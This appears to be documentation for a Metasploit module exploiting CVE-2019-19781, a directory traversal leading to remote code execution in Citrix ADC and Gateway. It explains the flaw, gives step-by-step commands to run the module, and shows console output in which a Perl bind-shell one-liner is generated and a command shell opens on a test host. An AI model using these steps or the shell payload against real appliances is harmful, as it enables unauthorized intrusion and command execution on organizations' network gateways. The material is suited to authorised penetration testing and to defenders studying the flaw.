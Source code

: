## Introduction

A directory traversal was discovered in Citrix Application Delivery Controller (ADC), aka NetScaler, and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0.

When the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache, which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the `filewrite` function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted XML file that uses the Perl Template Toolkit in part of payload.

```
msf5 exploit(linux/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/generic payload at 127.0.0.1:8080
[*] Generated payload: id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

[!] This exploit may require manual cleanup of '/netscaler/portal/templates/mdjLHiHtIYmh.xml' on the target
[!] This exploit may require manual cleanup of '/var/tmp/netscaler/portal/templates/mdjLHiHtIYmh.xml.ttc2' on the target
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/citrix_dir_traversal_rce) > set payload cmd/unix/bind_perl
payload => cmd/unix/bind_perl
msf5 exploit(linux/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/bind_perl payload at 127.0.0.1:8080
[*] Generated payload: perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
[!] No response to GET KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml request
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:51106 -> 127.0.0.1:4444) at 2020-01-13 20:50:45 -0600
[+] Deleted /netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml
[+] Deleted /var/tmp/netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml.ttc2

id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/citrix_dir_traversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
Id  Name
--  ----
0   Python
1   Unix Command
```

## Advanced options

**ForceExploit**

Override check result.

## References

1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
2. <https://www.exploit-db.com/exploits/47901>
3. <https://www.exploit-db.com/exploits/47902>
